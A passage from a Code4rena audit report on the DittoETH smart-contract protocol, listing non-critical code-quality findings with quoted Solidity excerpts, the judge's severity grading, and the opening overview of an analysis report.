533:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
534:         address asset,
535:         uint16 headId,
536:         uint16 lastMatchedId
537:     ) private {
538:         // BEFORE: FIRST <-> ... <-> (LAST) <-> NEXT
539:         // AFTER : FIRST <--------------------> NEXT
540:         uint16 nextAskId = orders[asset][lastMatchedId].nextId;
541:         if (nextAskId != C.TAIL) {
542:             orders[asset][nextAskId].prevId = headId;
543:         }
544:         orders[asset][headId].nextId = nextAskId;
545:     }

728:     function _updateOracleAndStartingShort(address asset, uint16[] memory shortHintArray) private {

783:     function updateOracleAndStartingShortViaThreshold(
784:         address asset,
785:         uint256 savedPrice,
786:         STypes.Order memory incomingOrder,
787:         uint16[] memory shortHintArray
788:     ) internal {
789:         bool orderPriceGtThreshold;
790:         // @dev handle .5% deviations in either directions
791:         if (incomingOrder.price >= savedPrice) {
792:             orderPriceGtThreshold = (incomingOrder.price - savedPrice).div(savedPrice) > 0.005 ether;
793:         } else {
794:             orderPriceGtThreshold = (savedPrice - incomingOrder.price).div(savedPrice) > 0.005 ether;
795:         }
796: 
797:         if (orderPriceGtThreshold) {
798:             _updateOracleAndStartingShort(asset, shortHintArray);
799:         }
800:     }

810:     function updateStartingShortIdViaShort(address asset, STypes.Order memory incomingShort) internal {
811:         AppStorage storage s = appStorage();
812:         STypes.Asset storage Asset = s.asset[asset];
813:         uint256 savedPrice = LibOracle.getPrice(asset);
814:         uint256 startingShortPrice = s.shorts[asset][Asset.startingShortId].price;
815:         bool shortOrdersIsEmpty = s.shorts[asset][C.HEAD].nextId == C.TAIL;
816: 
817:         if (shortOrdersIsEmpty || Asset.startingShortId == C.HEAD) {
818:             if (incomingShort.price >= savedPrice) {
819:                 Asset.startingShortId = incomingShort.id;
820:             }
821:         } else if (incomingShort.price < startingShortPrice && incomingShort.price >= savedPrice) {
822:             Asset.startingShortId = incomingShort.id;
823:         }
824:     }
```

LibSRUtil.sol ([151-162](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L151-L162)):

```solidity
151:     function updateErcDebt(STypes.ShortRecord storage short, address asset) internal {
152:         AppStorage storage s = appStorage();
153: 
154:         // Distribute ercDebt
155:         uint64 ercDebtRate = s.asset[asset].ercDebtRate;
156:         uint88 ercDebt = short.ercDebt.mulU88(ercDebtRate - short.ercDebtRate);
157: 
158:         if (ercDebt > 0) {
159:             short.ercDebt += ercDebt;
160:             short.ercDebtRate = ercDebtRate;
161:         }
162:     }
```

</details>

## [54] Duplicated `require()`/`revert()` checks should be refactored

<details>

Refactoring duplicate `require()`/`revert()` checks into a modifier or function can make the code more concise, readable and maintainable, and less likely to make errors or omissions when modifying the `require()` or `revert()`.

BridgeRouterFacet.sol ([64-64](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L64-L64), [102-102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L102-L102)):

```solidity
/// @audit Duplicated on line 83
64:         if (amount < C.MIN_DEPOSIT) revert Errors.UnderMinimumDeposit();

/// @audit Duplicated on line 134
102:         if (dethAmount == 0) revert Errors.ParameterIsZero();
```

ExitShortFacet.sol ([53-53](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L53-L53)):

```solidity
/// @audit Duplicated on line 99, 174
53:         if (buybackAmount > ercDebt || buybackAmount == 0) revert Errors.InvalidBuyback();
```

RedemptionFacet.sol ([68-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L68-L68), [235-235](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L235-L235), [315-315](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L315-L315)):

```solidity
/// @audit Duplicated on line 143
68:         if (redemptionAmount < minShortErc) revert Errors.RedemptionUnderMinShortErc();

/// @audit Duplicated on line 251, 314, 353
235:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

/// @audit Duplicated on line 354
315:         if (LibOrders.getOffsetTime() < redeemerAssetUser.timeToDispute) revert Errors.TimeToDisputeHasNotElapsed();
```

</details>

## [55] Consider adding emergency-stop functionality

<details>

Adding a way to quickly halt protocol functionality in an emergency, rather than having to pause individual contracts one-by-one, will make in-progress hack mitigation faster and much less stressful.

BidOrdersFacet.sol ([20-20](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L20-L20)):

```solidity
20: contract BidOrdersFacet is Modifiers {
```

BridgeRouterFacet.sol ([18-18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L18-L18)):

```solidity
18: contract BridgeRouterFacet is Modifiers {
```

ExitShortFacet.sol ([19-19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L19-L19)):

```solidity
19: contract ExitShortFacet is Modifiers {
```

PrimaryLiquidationFacet.sol ([21-21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L21-L21)):

```solidity
21: contract PrimaryLiquidationFacet is Modifiers {
```

RedemptionFacet.sol ([21-21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L21-L21)):

```solidity
21: contract RedemptionFacet is Modifiers {
```

ShortOrdersFacet.sol ([18-18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L18-L18)):

```solidity
18: contract ShortOrdersFacet is Modifiers {
```

</details>

## [56] Use the Modern Upgradeable Contract Paradigm

<details>

Modern smart contract development often employs upgradeable contract structures, utilizing proxy patterns like OpenZeppelin’s Upgradeable Contracts. This paradigm separates logic and state, allowing developers to amend and enhance the contract's functionality without altering its state or the deployed contract address. Transitioning to this approach enhances long-term maintainability.

Resolution: Adopt a well-established proxy pattern for upgradeability, ensuring proper initialization and employing transparent proxies to mitigate potential risks. Embrace comprehensive testing and audit practices, particularly when updating contract logic, to ensure state consistency and security are preserved across upgrades. This ensures your contract remains robust and adaptable to future requirements.

BidOrdersFacet.sol ([20](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L20)):

```solidity
20: contract BidOrdersFacet is Modifiers {
```

BridgeRouterFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L18)):

```solidity
18: contract BridgeRouterFacet is Modifiers {
```

ExitShortFacet.sol ([19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L19)):

```solidity
19: contract ExitShortFacet is Modifiers {
```

PrimaryLiquidationFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L21)):

```solidity
21: contract PrimaryLiquidationFacet is Modifiers {
```

RedemptionFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L21)):

```solidity
21: contract RedemptionFacet is Modifiers {
```

ShortOrdersFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L18)):

```solidity
18: contract ShortOrdersFacet is Modifiers {
```

</details>

## [57] Large or complicated code bases should implement invariant tests

<details>

This includes: large code bases, or code with lots of inline-assembly, complicated math, or complicated interactions between multiple contracts.

Invariant fuzzers such as Echidna require the test writer to come up with invariants which should not be violated under any circumstances, and the fuzzer tests various inputs and function calls to ensure that the invariants always hold. Even code with 100% code coverage can still have bugs due to the order of the operations a user performs, and invariant fuzzers may help significantly.

- Global finding

</details>

## [58] The default value is manually set when it is declared

<details>

In instances where a new variable is defined, there is no need to set it to it's default value.

RedemptionFacet.sol ([78-78](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L78-L78), [242-242](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L242-L242), [321-321](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L321-L321)):

```solidity
78:         for (uint8 i = 0; i < proposalInput.length; i++) {

242:         for (uint256 i = 0; i < decodedProposalData.length; i++) {

321:         for (uint256 i = 0; i < decodedProposalData.length; i++) {
```

LibBytes.sol ([18-18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L18-L18)):

```solidity
18:         for (uint256 i = 0; i < slateLength; i++) {
```

LibOrders.sol ([71-71](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L71-L71), [743-743](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L743-L743)):

```solidity
71:         for (uint256 i = 0; i < size; i++) {

743:             for (uint256 i = 0; i < shortHintArray.length;) {
```

</details>

## [59] Contracts should have all `public`/`external` functions exposed by `interface`s

<details>

All `external`/`public` functions should extend an `interface`. This is useful to ensure that the whole API is extracted and can be more easily integrated by other projects.

BidOrdersFacet.sol ([20](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L20)):

```solidity
20: contract BidOrdersFacet is Modifiers {
```

BridgeRouterFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L18)):

```solidity
18: contract BridgeRouterFacet is Modifiers {
```

ExitShortFacet.sol ([19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L19)):

```solidity
19: contract ExitShortFacet is Modifiers {
```

PrimaryLiquidationFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L21)):

```solidity
21: contract PrimaryLiquidationFacet is Modifiers {
```

RedemptionFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L21)):

```solidity
21: contract RedemptionFacet is Modifiers {
```

ShortOrdersFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L18)):

```solidity
18: contract ShortOrdersFacet is Modifiers {
```

</details>

## [60] Top-level declarations should be separated by at least two lines

<details>

There are 39 instances:

BidOrdersFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L2-L4), [75-77](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L75-L77), [356-358](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L356-L358)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U88, U80} from "contracts/libraries/PRBMathHelper.sol";

75:     }
76: 
77:     function _createBid(

356:     }
357: 
358:     function _shortDirectionHandler(
```

BridgeRouterFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L2-L4)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U88} from "contracts/libraries/PRBMathHelper.sol";
```

ExitShortFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L2-L4), [211-213](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L211-L213)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U80, U88} from "contracts/libraries/PRBMathHelper.sol";

211:     }
212: 
213:     function getCollateralRatioNonPrice(STypes.ShortRecord storage short) internal view returns (uint256 cRatio) {
```

PrimaryLiquidationFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L2-L4), [227-229](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L227-L229)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U96, U88, U80} from "contracts/libraries/PRBMathHelper.sol";

227:     }
228: 
229:     function min88(uint256 a, uint88 b) private pure returns (uint88) {
```

RedemptionFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L2-L4), [19-21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L19-L21)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U104, U88, U80, U64, U32} from "contracts/libraries/PRBMathHelper.sol";

19: import {console} from "contracts/libraries/console.sol";
20: 
21: contract RedemptionFacet is Modifiers {
```

ShortOrdersFacet.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L2-L4)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U88, U80} from "contracts/libraries/PRBMathHelper.sol";
```

LibBridgeRouter.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L2-L4)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {IBridge} from "contracts/interfaces/IBridge.sol";
```

LibBytes.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L2-L4)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {MTypes} from "contracts/libraries/DataTypes.sol";
```

LibOracle.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L2-L4), [67-69](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L67-L69), [115-117](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L115-L117), [129-131](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L129-L131)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256} from "contracts/libraries/PRBMathHelper.sol";

67:     }
68: 
69:     function baseOracleCircuitBreaker(

115:     }
116: 
117:     function oracleCircuitBreaker(

129:     }
130: 
131:     function twapCircuitBreaker() private view returns (uint256 twapPriceInEth) {
```

LibOrders.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L2-L4), [33-35](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L33-L35), [53-55](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L53-L55), [76-78](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L76-L78), [80-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L80-L82), [101-103](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L101-L103), [626-628](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L626-L628), [726-728](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L726-L728), [808-810](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L808-L810), [824-826](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L824-L826), [866-868](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L866-L868), [880-882](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L880-L882), [983-985](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L983-L985), [987-989](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L987-L989)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U256, U104, U80, U88, U16} from "contracts/libraries/PRBMathHelper.sol";

33:     }
34: 
35:     function convertCR(uint16 cr) internal pure returns (uint256) {

53:     }
54: 
55:     function currentOrders(mapping(address => mapping(uint16 => STypes.Order)) storage orders, address asset)

76:     }
77: 
78:     function isShort(STypes.Order memory order) internal pure returns (bool) {

80:     }
81: 
82:     function addBid(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

101:     }
102: 
103:     function addAsk(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

626:     }
627: 
628:     function matchIncomingSell(address asset, STypes.Order memory incomingOrder, MTypes.Match memory matchTotal) private {

726:     }
727: 
728:     function _updateOracleAndStartingShort(address asset, uint16[] memory shortHintArray) private {

808:     }
809: 
810:     function updateStartingShortIdViaShort(address asset, STypes.Order memory incomingShort) internal {

824:     }
825: 
826:     function findOrderHintId(

866:     }
867: 
868:     function cancelAsk(address asset, uint16 id) internal {

880:     }
881: 
882:     function cancelShort(address asset, uint16 id) internal {

983:     }
984: 
985:     function min(uint256 a, uint256 b) internal pure returns (uint256) {

987:     }
988: 
989:     function max(uint256 a, uint256 b) internal pure returns (uint256) {
```

LibSRUtil.sol ([2-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L2-L4), [47-49](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L47-L49), [70-72](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L70-L72), [100-102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L100-L102), [122-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L122-L124), [149-151](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L149-L151)):

```solidity
2: pragma solidity 0.8.21;
3: 
4: import {U88, U256} from "contracts/libraries/PRBMathHelper.sol";

47:     }
48: 
49:     function checkCancelShortOrder(address asset, SR initialStatus, uint16 shortOrderId, uint8 shortRecordId, address shorter)

70:     }
71: 
72:     function checkShortMinErc(address asset, SR initialStatus, uint16 shortOrderId, uint8 shortRecordId, address shorter)

100:     }
101: 
102:     function checkRecoveryModeViolation(address asset, uint256 shortRecordCR, uint256 oraclePrice)

122:     }
123: 
124:     function transferShortRecord(address from, address to, uint40 tokenId) internal {

149:     }
150: 
151:     function updateErcDebt(STypes.ShortRecord storage short, address asset) internal {
```

UniswapOracleLibrary.sol ([8-10](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L8-L10), [45-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L45-L47)):

```solidity
8: import {U256} from "contracts/libraries/PRBMathHelper.sol";
9: 
10: interface IUniswapV3Pool {

45:     }
46: 
47:     function estimateTWAP(uint128 amountIn, uint32 secondsAgo, address pool, address baseToken, address quoteToken)
```

</details>

## [61] Consider adding formal verification proofs

<details>

Formal verification is the act of proving or disproving the correctness of intended algorithms underlying a system with respect to a certain formal specification/property/invariant, using formal methods of mathematics.

Some tools that are currently available to perform these tests on smart contracts are [SMTChecker](https://docs.soliditylang.org/en/latest/smtchecker.html) and [Certora Prover](https://www.certora.com/).

There are 12 instances:

- [*BidOrdersFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol)

- [*BridgeRouterFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol)

- [*ExitShortFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol)

- [*PrimaryLiquidationFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol)

- [*RedemptionFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol)

- [*ShortOrdersFacet.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol)

- [*LibBridgeRouter.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol)

- [*LibBytes.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol)

- [*LibOracle.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol)

- [*LibOrders.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol)

- [*LibSRUtil.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol)

- [*UniswapOracleLibrary.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol)

</details>

## [62] Use scopes sparingly

<details>

The use of scoped blocks, denoted by `{}` without a preceding control structure like `if`, `for`, etc., allows for the creation of isolated scopes within a function. While this can be useful for managing memory and preventing naming conflicts, it should be used sparingly. Excessive use of these scope blocks can obscure the code's logic flow and make it more difficult to understand, impeding code maintainability. As a best practice, only employ scoped blocks when necessary for memory management or to avoid clear naming conflicts. Otherwise, aim for clarity and simplicity in your code structure for optimal readability and maintainability.

ExitShortFacet.sol ([101-102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L101-L102), [176-177](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L176-L177)):

```solidity
101:         {
102:             STypes.AssetUser storage AssetUser = s.assetUser[asset][msg.sender];

176:         {
177:             uint256 ethAmount = price.mul(e.buybackAmount);
```

PrimaryLiquidationFacet.sol ([127-128](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L127-L128)):

```solidity
127:         {
128:             MTypes.PrimaryLiquidation memory m;
```

LibOrders.sol ([750-751](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L750-L751), [908-909](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L908-L909)):

```solidity
750:                 {
751:                     O shortOrderType = short.orderType;

908:                 {
909:                     STypes.Vault storage Vault = s.vault[vault];
```

</details>

**[ditto-eth (DittoETH) acknowledged](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/31#issuecomment-2046141957)**

**[hansfriese (judge) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/31#issuecomment-2060658651):**

> [01] - Low<br>
> [02] - Non-Critical<br>
> [03] - Low<br>
> [04] - Low<br>
> [05] - Non-Critical<br>
> [06] - Low<br>
> [07] - Non-Critical<br>
> [08] - Low<br>
> 
> and 54 Non-Criticals.

***

# Audit Analysis

For this audit, 15 analysis reports were submitted by wardens. An analysis report examines the codebase as a whole, providing observations and advice on such topics as architecture, mechanism, or approach. The [report highlighted below](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64) by **popeye** received the top score from the judge.

*The following wardens also submitted reports: [hunter\_w3b](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/299), [Sathish9098](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/273), [roguereggiant](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/140), [albahaca](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/77), [fouzantanveer](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/271), [SAQ](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/257), [kaveyjoe](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/237), [emerald7017](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/229), [LinKenji](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/225), [foxb868](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/213), [0xbrett8571](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/207), [Rhaydden](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/142), [JcFichtner](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/139), and [clara](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/78).*


## Overview of DittoETH

`DittoETH` is a decentralized pegged asset issuance protocol built on the Ethereum blockchain. The protocol aims to create a platform for users to mint and trade pegged assets, known as `DittoAssets`, which are collateralized by liquid staked `ETH (LST)` such as `rETH` and `stETH`. `DittoETH` draws inspiration from the original Bitshares implementation of polymorphic digital assets `(PMDA)` and utilizes an orderbook model for asset exchange.

At its core, `DittoETH` allows users to deposit `LSTs` or `ETH` into vaults, which serve as collateral for minting `DittoAssets`. The protocol introduces the concept of `dETH`, an internal representation of the deposited collateral that enables users to earn staking rewards. When a user deposits `LSTs` or `ETH`, they receive an equivalent amount of `dETH`, which is escrowed within the protocol.

